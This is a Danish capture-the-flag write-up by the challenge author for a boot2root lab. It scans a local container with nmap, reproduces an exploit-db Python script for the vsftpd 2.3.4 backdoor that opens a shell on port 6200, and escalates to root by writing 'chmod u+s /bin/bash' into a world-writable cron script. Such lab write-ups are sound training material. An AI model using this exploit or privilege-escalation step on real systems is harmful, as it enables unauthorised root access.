 ```yaml
---
layout: post
title:  "De Danske Cybermesterskaber 2022 - Nationals - afstiafsted"
date:   2022-05-07 16:17:42 +0200
categories: writeups
---
```

# Afsti afsted
Dette er mit writeup for Afsti afsted, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `afsti-afsted.hkn` på screenshots)

Ihvertfald er `Afsti Afsted` en `boot2root` challenge hvor hensigten er at udnytte en bagdør i `vsftpd 2.3.4` og privesc ved at skrive til et world writeable script som kører som root via `cron` hver minut.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```bash
root@d993e6b1ec7c:/tmp# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:22 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
2100/tcp open  amiganetfs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

Hvilket viser en eller anden port på `2100` åben, man kan ikke stole på at det er `amiganetfs` så lad os prøve at tjekke om vi kan finde ud af hvad det er:

```bash
root@d993e6b1ec7c:/tmp# nmap -sC -sV -p 2100 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 19:23 UTC
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT     STATE SERVICE VERSION
2100/tcp open  ftp     vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    1 1000     1000         4096 May 04 18:41 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 172.17.0.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
```

Ok sick nok, vi kan se at `vsftpd 2.3.4` kører. lad os lige prøve at hurtigt google den.




![vsftpd](vsftpdbackdoor.JPG)


ok det virker som om der er en bagdør i den her version, hvis vi læser lidt på nr 2 link, så kan vi se hvad det går ud på. Scriptet fra exploit-db ser således ud.

```python

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Ok hvis vi læser det, så sender det bare strengen `nergal:)` som bruger og `pass` som password.

Dette åbner så en bagdør på port 6200 som vi bare kan forbinde til. Du ville kunne bruge scriptet fra ovenover hvis du ændrer porten fra `21` til `2100` 

Jeg valgte dog bare at gøre det manuelt


sry for at have sagt det her er nemt, det er min fejl :(

![vsftpd](ftpconnect.jpg)

Som du kan se på ovenstående screenshot så forbinder jeg bare med ovenstående info, og så netcatter jeg til port 6200 og har så bruger på maskinen.

Nu kan man køre nogle privesc scripts, jeg kan godt lide linpeas https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Hvilket viser der er et script `/opt/cleanlogs.sh` som vi har `write access` til..

Det lyder som et script der kører automatisk, lad os prøve at skrive til det.

```
echo "chmod u+s /bin/bash" > /opt/cleanlogs.sh
```
fordi vi kan bruge gtfobins https://gtfobins.github.io/gtfobins/bash/

og så vente lidt tid.

....

...

og så skrive `/bin/bash -p`

og vi kan finde flaget

![vsftpd](privesc2.jpg)